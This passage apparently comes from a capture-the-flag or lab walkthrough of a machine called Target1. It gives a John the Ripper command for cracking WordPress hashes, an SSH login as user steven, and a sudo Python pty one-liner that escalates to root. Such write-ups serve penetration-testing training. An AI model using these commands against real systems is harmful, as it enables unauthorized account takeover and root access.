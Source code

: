     Use John The Ripper to unhash the password of user steven

    'john --wordlist=/root/Downloads/rockyou.txt /root/Downloads/wp_hashes.txt'

    ![john](/Images/john-steven_Target1.png)

    ssh into Target1 as steven: 'ssh steven@192.168.1.110'

    ![ssh-steven](/Images/ssh-steven_Target1.png)

    Verify the sudo permissions of steven: sudo -l'

    ![sudo-l](/Images/sudo-steven_Target1.png)

    We see steven has sudo permission for python.
    We can exploit this to gain a shell as root: 'python -c 'import pty;pty.spawn("/bin/bash")''

    ![priv-escln](/Images/privilege-escalation_py_Target1.png)

    Now as root, search for flag file 

    ![found4](/Images/flag4-found_Target1.png)
